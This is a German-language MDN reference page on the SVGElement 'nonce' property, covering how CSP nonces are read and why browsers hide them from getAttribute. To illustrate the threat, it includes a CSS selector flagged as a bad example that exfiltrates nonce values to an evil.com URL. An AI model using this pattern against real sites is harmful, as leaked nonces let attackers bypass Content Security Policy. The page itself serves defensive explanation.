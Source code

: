 ```yaml
---
title: "SVGElement: nonce Eigenschaft"
short-title: nonce
slug: Web/API/SVGElement/nonce
l10n:
  sourceCommit: 97dc5e941cca2f67ece5ff91d0c96674f210fef9
---
```


{{APIRef("SVG")}}

Die **`nonce`**-Eigenschaft des [`SVGElement`](/de/docs/Web/API/SVGElement)-Interfaces gibt die Nonce zurück, die von der [Content Security Policy](/de/docs/Web/HTTP/CSP) verwendet wird, um zu bestimmen, ob ein bestimmter Abruf erlaubt wird.

## Wert

Ein String; die kryptografische Nonce oder ein leerer String, wenn keine Nonce gesetzt ist.

## Beispiele

### Abrufen eines Nonce-Werts

In der Vergangenheit unterstützten nicht alle Browser das `nonce` IDL-Attribut, daher war ein Workaround notwendig, indem [`getAttribute`](/de/docs/Web/API/Element/getAttribute) als Fallback verwendet wurde:

```js
const svg = document.querySelector("svg");
const nonce = svg.nonce || svg.getAttribute("nonce");

// Modern browsers hide the nonce attribute from getAttribute()
console.log(nonce); // Prefer using `svg.nonce`
```

Neuere Browserversionen verbergen `nonce`-Werte, die auf diese Weise zugegriffen werden (ein leerer String wird zurückgegeben). Die IDL-Eigenschaft (`svg['nonce']`) wird der einzige Weg sein, um auf Nonces zuzugreifen.

Das Verbergen von Nonces hilft zu verhindern, dass Angreifer Nonce-Daten über Mechanismen abgreifen, die Daten aus Inhaltsattributen erfassen können, wie z.B. diesem CSS-Selektor:

```css example-bad
svg[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce) eine ähnliche Methode für HTML-Elemente.
- [`nonce` globales Attribut](/de/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}
